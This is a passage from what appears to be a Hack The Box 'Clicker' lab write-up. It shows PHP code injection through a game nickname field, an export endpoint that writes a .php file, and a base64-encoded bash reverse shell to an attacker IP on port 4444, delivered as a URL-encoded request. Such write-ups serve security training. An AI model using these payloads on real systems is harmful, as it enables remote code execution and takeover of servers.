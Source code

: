 Then I called the export endpoint, requesting a PHP file.

```http
POST /export.php HTTP/1.1
Host: clicker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Origin: http://clicker.htb
Connection: keep-alive
Referer: http://clicker.htb/admin.php?msg=Data%20has%20been%20saved%20in%20exports/top_players_svgyuuzq.json
Cookie: PHPSESSID=9nj0jaelkdd97jpn2llqe0ts11
Upgrade-Insecure-Requests: 1
Content-Length: 31

threshold=1000000&extension=php
```

I looked at the exported file. My PHP code was executed since my nickname was simply 'IN'.

![RCE](/assets/images/2023/11/Clicker/RCE.png "RCE")

With this, I could build a reverse shell. I started by encoding the reverse shell code in base64.

```bash
$ echo 'bash  -i >& /dev/tcp/10.10.14.59/4444 0>&1  ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNTkvNDQ0NCAwPiYxICAK
```

Then I created PHP code that would execute it.

```php
<?php `echo -n YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNTkvNDQ0NCAwPiYxICAK|base64 -d|bash`;?>
```

I URL encoded the PHP code with [CyberChef](https://gchq.github.io/CyberChef/#recipe=URL_Encode(true)&input=PD9waHAgYGVjaG8gLW4gWW1GemFDQWdMV2tnUGlZZ0wyUmxkaTkwWTNBdk1UQXVNVEF1TVRRdU5Ua3ZORFEwTkNBd1BpWXhJQ0FLfGJhc2U2NCAtZHxiYXNoYDs/Pg) and used that as my nickname.

```http
GET /save_game.php?clicks=20000000&level=30000000&nickname=%3C%3Fphp%20%60echo%20%2Dn%20YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNTkvNDQ0NCAwPiYxICAK%7Cbase64%20%2Dd%7Cbash%60%3B%3F%3E HTTP/1.1
Host: clicker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://clicker.htb/play.php
Cookie: PHPSESSID=4v4qtarbee22g999t7te4dqo1p
Upgrade-Insecure-Requests: 1
```
